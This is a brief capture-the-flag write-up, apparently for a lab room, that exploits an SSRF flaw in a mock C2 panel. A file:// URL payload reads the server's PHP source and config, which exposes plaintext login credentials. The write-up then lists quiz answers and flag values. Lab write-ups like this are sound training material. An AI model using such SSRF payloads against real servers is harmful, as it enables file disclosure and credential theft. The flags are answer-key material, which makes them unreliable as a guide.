 
```bash
echo "10.10.17.199 mcgreedysecretc2.thm" >> /etc/hosts
```
Visit site
http://mcgreedysecretc2.thm/getClientData.php?url=file:////var/www/html/index.php
```
<?php
session_start();
include('config.php');
// Check if the form was submitted
if ($_SERVER["REQUEST_METHOD"] == "POST") {
  // Retrieve the submitted username and password
  //print_r($_SERVER);
  $uname = $_POST["username"];
  $pwd = $_POST["password"];

  // Check if both the username and password are "hello"
  if ($uname === $username && $pwd === $password) {
    // If both are "hello," load the page (replace 'page.php' with the actual page URL)
    $_SESSION['logged_in'] = true;
    header("Location: dashboard.php");
    exit();
  } else {
    // If not, display an error message
    $error_message = "Invalid password. Please try again.";
  }
}
?>
```
http://mcgreedysecretc2.thm/getClientData.php?url=file:////var/www/html/config.php
```
<?php
$username = "mcgreedy";
$password = "mcgreedy!@#$%";

?>
```

Login with mcgreedy:mcgreedy!@#$%


# Is SSRF the process in which the attacker tricks the server into loading only external resources (yea/nay)?
nay

# What is the C2 version?
Version 1.1
1.1

# What is the username for accessing the C2 panel?
mcgreedy

# What is the flag value after accessing the C2 panel?
Flag: THM{EXPLOITED_31001}
THM{EXPLOITED_31001}

# What is the flag value after stopping the data exfiltration from the McSkidy computer?
The agent has been removed. Flag: THM{AGENT_REMOVED_1001}
THM{AGENT_REMOVED_1001}
